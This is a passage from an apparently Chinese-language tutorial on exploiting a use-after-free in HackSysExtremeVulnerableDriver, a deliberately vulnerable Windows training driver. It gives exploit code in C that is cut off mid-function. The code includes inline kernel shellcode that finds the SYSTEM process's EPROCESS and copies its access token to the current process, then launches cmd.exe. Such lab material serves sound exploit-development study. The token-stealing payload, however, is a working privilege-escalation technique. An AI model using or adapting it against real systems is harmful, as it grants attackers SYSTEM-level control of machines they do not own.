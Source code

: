 打开IO设备后，调用`DeviceIoControl`即可控制驱动。

完整exp如下：

```c
#include<stdio.h>
#include<windows.h>

#define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)

#define HEVD_IOCTL_ALLOCATE_UAF_OBJECT_NON_PAGED_POOL            IOCTL(0x804)
#define HEVD_IOCTL_USE_UAF_OBJECT_NON_PAGED_POOL                 IOCTL(0x805)
#define HEVD_IOCTL_FREE_UAF_OBJECT_NON_PAGED_POOL                IOCTL(0x806)
#define HEVD_IOCTL_ALLOCATE_FAKE_OBJECT_NON_PAGED_POOL           IOCTL(0x807)

typedef void(*FunctionPointer)(void);

typedef struct _USE_AFTER_FREE_NON_PAGED_POOL
{
	FunctionPointer Callback;
	CHAR Buffer[0x54];
} USE_AFTER_FREE_NON_PAGED_POOL, *PUSE_AFTER_FREE_NON_PAGED_POOL;

void Shellcode()
{
	_asm
	{
		nop
		pushad
		mov eax, fs:[124h]		// 找到当前线程的_KTHREAD结构
		mov eax, [eax + 0x50] 	// 找到_PROCESS&_EPROCESS结构
		mov ecx, eax 			// ecx为当前线程
		mov edx, 4

		// 循环获取system的_EPROCESS
		find_sys_pid :
					 mov eax, [eax + 0xb8]		// 找到ActiveProcessLinks
					 sub eax, 0xb8			// FLINK
					 cmp[eax + 0xb4], edx	// 与uid = 4比较
					 jnz find_sys_pid

					 // 替换Token
					 mov edx, [eax + 0xf8]
					 mov[ecx + 0xf8], edx
					 popad
					 ret
	}
}
static VOID CreateCmd()
{
	STARTUPINFO si = { sizeof(si) };
	PROCESS_INFORMATION pi = { 0 };
	si.dwFlags = STARTF_USESHOWWINDOW;
	si.wShowWindow = SW_SHOW;
	WCHAR wzFilePath[MAX_PATH] = { L"cmd.exe" };
	BOOL bReturn = CreateProcessW(NULL, wzFilePath, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOW)&si, &pi);
	if (bReturn) CloseHandle(pi.hThread), CloseHandle(pi.hProcess);
}

int main() {
	HANDLE hDevice = INVALID_HANDLE_VALUE;  // handle to the drive to be examined
	hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",
		GENERIC_READ | GENERIC_WRITE,
		NULL,
```